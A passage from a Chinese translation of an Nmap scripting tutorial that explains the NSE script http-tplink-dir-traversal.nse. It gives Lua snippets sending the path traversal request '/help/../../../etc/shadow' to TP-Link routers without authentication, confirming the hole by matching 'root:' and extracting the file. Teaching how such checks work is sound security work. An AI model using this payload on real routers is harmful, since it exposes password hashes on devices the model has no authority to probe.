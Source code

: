 ```
-- |   
-- |     References:
-- |_      http://websec.ca/advisories/view/path-traversal-vulnerability-tplink-wdr740
```

## 它是如何工作的。。。

脚本`http-tplink-dir-traversal.nse`执行以下任务以利用所讨论的路径遍历漏洞：

1.  首先，它发送路径遍历请求以确定安装是否易受攻击。
2.  如果安装有漏洞，请从 web 服务器发送的响应中提取请求的文件。
3.  向用户报告漏洞并提供概念证明。

在这种情况下，库`http`需要发送包含路径遍历负载的 HTTP 请求。为了确定设备是否易受攻击，我们请求文件`/etc/shadow`，因为我们知道该文件存在于所有设备中，并且其中必须存在根帐户：

```
local response = http.get(host, port, "/help/../../../etc/shadow")
```

响应应在其正文中包含请求的文件，在结束脚本标记`</SCRIPT>`之后：

![How it works...](img/7485_09_01.jpg)

要确认可利用性，我们只需要将响应主体与字符串“root:”匹配：

```
if response.body and response.status==200 and response.body:match("root:") then
    stdnse.print_debug(1, "%s:Pattern 'root:' found.", SCRIPT_NAME, response.body)
    return true
  end
```

Lua 捕获允许开发人员提取与给定模式匹配的字符串。他们非常有帮助，我强烈建议你和他们一起玩（[http://www.lua.org/pil/20.3.html](http://www.lua.org/pil/20.3.html) ：

```
local _, _, rfile_content = string.find(response.body, 'SCRIPT>(.*)')
```

一旦我们确认该漏洞，建议使用库`vulns`进行报告。创建此库是为了统一各种 NSE 脚本使用的输出格式。它支持多个字段以有组织的方式提供所有漏洞详细信息：

```
local vuln = {
       title = 'Path traversal vulnerability in several TP-Link wireless routers',
       state = vulns.STATE.NOT_VULN,
       description = [[
Some TP-Link wireless routers are vulnerable to a path traversal vulnerability that allows attackers to read configurations or any other file in the device.
This vulnerability can be exploited without authentication.Confirmed vulnerable models: WR740N, WR740ND, WR2543ND
Possibly vulnerable (Based on the same firmware): WR743ND,WR842ND,WA-901ND,WR941N,WR941ND,WR1043ND,MR3220,MR3020,WR841N.]],
       references = {
           'http://websec.ca/advisories/view/path-traversal-vulnerability-tplink-wdr740'
       },
```